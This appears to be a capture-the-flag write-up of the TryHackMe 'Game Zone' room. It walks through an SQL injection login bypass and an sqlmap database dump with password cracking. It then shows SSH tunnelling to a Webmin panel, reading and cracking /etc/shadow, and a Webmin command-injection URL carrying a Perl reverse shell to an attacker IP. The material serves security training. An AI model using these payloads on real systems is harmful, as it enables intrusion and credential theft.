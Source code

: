 # TryHackMe - Game Zone

Welcome to my write-up of the "Game Zone" room of [TryHackMe](https://tryhackme.com/room/gamezone)!

## Task 1: Deploy the vulnerable machine

The first task is an easy one. We just open the webserver (http://10.10.195.174 in my case) and see the shady face of the main character of the game *Hitman* called **Agent 47**, which is also the answer to the first question.

Done with that, we can go straight to the second task.

## Task 2: Obtain access via SQLi

On the main page of the website we can see a login form which probably checks in user submitted input against a database.

Because we don't have any user account and are not able to create one, we will try to bypass the authentication using common SQL injection payloads. A very good resource on that topic is the [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) repo on GitHub!

The description on the task gives us a clear hint, so we will put in the following payload into the username field of the login form while leaving the password field empty:

```sql
' or 1=1 -- -
```

We successfuly can log in and hit on the "Search" button which reveals a list of game reviews. The name of that page is **portal.php** which is the answer to the second question.

## Task 3: Using SQLMap

Now shit is going to get real. We will use the awesome, powerful tool called [SQLMap](https://github.com/sqlmapproject/sqlmap) which automatically submits a list of payloads, one attempt after another, to check if there is a SQLi vulnerability that we can abuse.

SQLMap needs some kind of request captured in which it will discover POST parameters where it would target its attack. We just enter something like *test* into the search field and collect the request headers and POST data. As mentioned in the room description, you can use Burp proxy to achieve this, but you can also do it using the developer tools of your browser.

Copying all the request headers and payload data will produce an output like this:

```http
POST /portal.php HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: de-DE,de
Cache-Control: max-age=0
Connection: keep-alive
Content-Length: 15
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=7hhl7mrqrqd6aru6jpovu99ji0
Host: 10.10.195.174
Origin: http://10.10.195.174
Referer: http://10.10.195.174/portal.php
Sec-GPC: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36

searchitem=test
```

Save this into a file called ```request.txt```.

Run SQLMap with the following parameters:

```bash
sqlmap -r request.txt --dbms=mysql --dump
```

This will tell SQLMap to use the previously captured request file to perform an automated attack on potentially vulnerable POST parameters.

![Screenshot 2 - SQLMap](screenshot2.png)

## Task 4: Cracking a password with JohnTheRipper

SQLMap will also ask you if you want to perform a dictionary attack on the vulnerable parameter. This way we can skip the proposed approach using ```john``` as mentioned in the room description. Just answer with ```Y``` at the right moment and provide the path to your good old ```rockyou.txt```file and SQLMap will do just fine.

![Screenshot 3 - SQLMap Dictionary Attack](screenshot3.png)

After SQLMap finishes, it will reveal the password hash, as well as the decrypted password alongside with the username in the table ```pwd``` and also another table which is called ```post```.

```
+----------------------------------------------------------------------------------+----------+
| pwd                                                                              | username |
+----------------------------------------------------------------------------------+----------+
| ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 (videogamer124) | agent47  |
+----------------------------------------------------------------------------------+----------+
```

Now we can SSH into the box and are presented a bash prompt.

![Screenshot 4 - Bash Prompt](screenshot4.png)

The ```user.txt``` file containing the flag is right in the home directory of user **agent47**.

```bash
cat user.txt
649ac17b1480ac13ef1e4fa579dac95c
```

## Task 5: Exposing services with reverse SSH tunnels

Using ```ss -tulpn``` we discover that there are **5** TCP listening sockets.

![Screenshot 5 - Open TCP sockets](screenshot5.png)

Besides of the ports we already know, there is also an interesting TCP port ```10000``` open. We cannot access this port from our Kali box directly because a firewall is blocking external access, but OpenSSH allows us to tunnel this local port back to our attacking machine so we can access it.

From our local machine, we can fire the following command, using our password cracked before during interactive login.

```bash
ssh -L 10000:localhost:10000 agent47@10.10.195.174
```

Now we can go back to our browser and open [http://localhost:1000](http://localhost:10000) in order to get to the ***Webmin*** panel of the server.

![Screenshot 6 - Webmin Login](screenshot6.png)

We log in once again with our ```agent47/videogamer124``` credentials and see that **1.580** is the installed version of Webmin.

## Task 6: Privilege Escalation with Metasploit

Webmin is a server administration web panel that usually has privileged access to system functions. Now let's see if we can abuse a vulnerability in this version of Webmin to get root access.

Using ```searchsploit``` we find out that this version of Webmin is vulnerable for RCE.

![Screenshot 7 - Searchsploit](screenshot7.png)

This exploit can be downloaded from [Exploit-DB](https://www.exploit-db.com/download/21851).

As you can see in the source code of this exploit, the exploit is triggered by accessing a vulnerable target URL.

![Screenshot 8 - Exploit source code](screenshot8.png)

I did not want to use Metasploit to get this going, therefore my first approach was to just steal ```/etc/passwd``` and ```/etc/shadow``` to do another dictionary attack on the root password (Spoiler: this was unsuccessful).

In order to do that, we can open our browser again and prepare our payload in the address bar.

![Screenshot 9 - Browser address bar](screenshot9.png)

Then, after copying the relevant lines from the files, we unshadow the ```passwd.txt``` and ```shadow.txt``` files for John the Ripper and start a dictionary attack once again.

```bash
echo "root:x:0:0:root:/root:/bin/bash" > passwd.txt
echo "root:$6$Llhg4MdC$f9TRe8xLelwHpj5JvCNprpWBnHppEnryPo1mGiKW2U71SpTVZRRE0f7/3kZsIwNsRpcc7GlcVSnuYfiN5n7Yw.:18124:0:99999:7:::" > shadow.txt
unshadow passwd.txt shadow.txt > unshadow.txt
john --wordlist=/usr/share/wordlists/rockyou.txt unshadow.txt
```

As we cannot find a password for root, we abuse the vulnerability manually.

Therefore we create a reverse shell listener using *netcat*.

```bash
nc -vnlp 1337
```

When we log into the Webmin interface once again with our **agent47/videogamer124** credentials and then abuse the vulnerable cgi script with a crafted URI.

I tried it with the PentestMonkey Perl Oneliner and was successful. The complete URL would be:

```
http://localhost:10000/file/show.cgi/bin/asdfasdf%7Cperl%20-e%20'use%20Socket;$i=%2210.18.86.124%22;$p=1337;socket(S,PF_INET,SOCK_STREAM,getprotobyname(%22tcp%22));if(connect(S,sockaddr_in($p,inet_aton($i))))%7Bopen(STDIN,%22%3E&S%22);open(STDOUT,%22%3E&S%22);open(STDERR,%22%3E&S%22);exec(%22sh%20-i%22);%7D;'%7C```
```

Then the reverse shell will pop off and you can get the flag.

```bash
connect to [10.18.86.124] from (UNKNOWN) [10.10.114.136] 50684
sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# pwd
/usr/share/webmin/file/
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
root.txt
# cat root.txt
a4b945830144bdd71908d12d902adeee
```

